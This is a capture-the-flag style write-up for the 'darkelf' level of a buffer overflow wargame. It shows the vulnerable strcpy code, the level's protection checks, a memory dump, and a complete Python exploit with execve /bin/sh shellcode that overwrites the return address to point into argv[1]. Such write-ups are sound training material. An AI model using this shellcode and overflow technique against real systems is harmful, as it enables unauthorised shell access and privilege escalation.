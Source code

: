 # Vulnerability
```c
char buffer[40];
strcpy(buffer, argv[1]);
```
The `darkelf` program uses strcpy() function to copy argv[1] to buffer's address.

But strcpy() doesn't check boundary so I can overwrite SFP & RET address.

There is a little protection code in `darkelf.c`:
```c
// egghunter 
for(i=0; environ[i]; i++)
  memset(environ[i], 0, strlen(environ[i]));

if(argv[1][47] != '\xbf')
{
  printf("stack is still your friend.\n");
  exit(0);
}

// check the length of argument
if(strlen(argv[1]) > 48){
  printf("argument is too long!\n");
  exit(0);
}

// buffer hunter
memset(buffer, 0, 40);
```

I will use argv[1]'s address into RET address since buffer will be set to zero.

The length check is added but this method doesn't care about it.

```
------------------------------------------------------------
| NOP(15) | SHELLCODE(25) | AAAA(4) | argv[1]'s address(4) |
------------------------------------------------------------
```

To know argv[1]'s address, get dump file:
```
0xbffffc10:	0x90909000	0x90909090	0x90909090	0x90909090
0xbffffc20:	0x6850c031	0x68732f2f	0x69622f68	0x50e3896e
0xbffffc30:	0x31e18953	0xcd0bb0d2	0x41414180	0xffffff41
```

# Payload
```python
import os
from struct import *

payload = ""
payload = payload + "\x90" * 15
payload = payload + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"
payload = payload + "AAAA" # SFP
payload = payload + "\x14\xfc\xff\xbf" # RET

os.execv('/home/wolfman/darkelf', ["", payload])
```
